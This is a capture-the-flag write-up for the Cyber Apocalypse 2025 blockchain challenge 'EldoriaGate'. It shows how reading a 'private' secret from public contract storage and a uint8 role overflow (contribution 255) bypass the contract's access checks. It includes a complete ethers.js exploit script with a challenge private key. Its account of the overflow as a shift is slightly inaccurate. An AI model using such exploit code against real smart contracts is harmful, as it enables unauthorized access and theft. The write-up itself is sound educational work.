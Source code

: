 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | EldoriaGate Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: blockchain
challenge: EldoriaGate
tags: "blockchain, starry, ethers"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>

## EldoriaGate
> Solved by Starry-Lord


    contract EldoriaGateKernel {
        bytes4 private eldoriaSecret;
        ...
    }

First I thought we needed to Bruteforce the secret, but then I realised the value was getting stored on-chain, and as we all know, on-chain storage is public [**😉**](https://emojipedia.org/winking-face), so we could just extract it from the creation of the contract’s transaction.

Since it’s the first declared variable, it is stored at slot 0 on the EldorianGateKernel contract address.

With that we managed to authenticate, but we still needed to become the “Usurper” which is basically not receiving any role, but the contract assigne the ROLE_SERF by default:


    function evaluateIdentity(address _unknown, uint8 _contribution) external onlyFrontend returns (uint id, uint8 roles) {
                ...
                let defaultRolesMask := ROLE_SERF
                roles := add(defaultRolesMask, _contribution)
                if lt(roles, defaultRolesMask) { revert(0, 0) }
                ...
        }

But we can break it by passing the contribution value 255, which is an 8-bit value. The key here is that shifting left an 8-bit value by 256 brings us back to 0, thus allowing us to not get a default role:


    function evaluateIdentity(address _unknown, uint8 _contribution) external onlyFrontend returns (uint id, uint8 roles) {
            assembly {
                mstore(0x00, _unknown)
                mstore(0x20, villagers.slot)
                let villagerSlot := keccak256(0x00, 0x40)
                mstore(0x00, _unknown)
                id := keccak256(0x00, 0x20)
                sstore(villagerSlot, id)
                let storedPacked := sload(add(villagerSlot, 1))
                let storedAuth := and(storedPacked, 0xff)
                if iszero(storedAuth) { revert(0, 0) }
                let defaultRolesMask := ROLE_SERF
                roles := add(defaultRolesMask, _contribution)
                if lt(roles, defaultRolesMask) { revert(0, 0) }
                let packed := or(storedAuth, shl(8, roles))
                sstore(add(villagerSlot, 1), packed)
        }
    }

solve.js with ethers.js v5:


    const { ethers } = require("ethers");
    
    const RPC_URL = "http://94.237.58.78:50156";
    const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
    
    // CONFIGURATION
    const TARGET_ADDRESS = "0x89B1908C814588a24269cD14409ba6b4B15a709B"; // EldoriaGate
    const PLAYER_PRIVATE_KEY = "0x63ddf21f62799265b687cd70c91065c94b75aa8b9aab40d2f122c14dc0513c32";
    
    // CONTRACT ABIs
    const EldoriaGateABI = [
      "function enter(bytes4 passphrase) external payable",
      "function kernel() public view returns (address)"
    ];
    
    // Setup
    const player = new ethers.Wallet(PLAYER_PRIVATE_KEY, provider);
    const gate = new ethers.Contract(TARGET_ADDRESS, EldoriaGateABI, player);
    
    async function main() {
      console.log("[*] Getting EldoriaGateKernel address...");
      const kernelAddress = await gate.kernel();
      console.log("[+] Kernel address:", kernelAddress);
    
      console.log("[*] Reading storage slot 0 from kernel...");
      const rawSlot = await provider.getStorageAt(kernelAddress, 0);
      console.log("[+] Raw slot 0 data:", rawSlot);
    
      // Extract last 4 bytes (right-aligned)
      const guess = "0x" + rawSlot.slice(66 - 8);
      console.log("[+] Interpreted eldoriaSecret:", guess);
    
      console.log("[*] Attempting to call enter() with secret...");
    
      try {
        const tx = await gate.enter(guess, { value: 255 });
        await tx.wait();
        console.log(`\n🎉 [SUCCESS] Authentication passed with secret: ${guess}`);
      } catch (err) {
        const reason = err?.error?.message || err?.reason || "Unknown error";
        console.log(`\n[x] enter(${guess}) failed: ${reason}`);
      }
    }
    
    main().catch(console.error);
    


![](https://i.imgur.com/7P2f4OD.png)


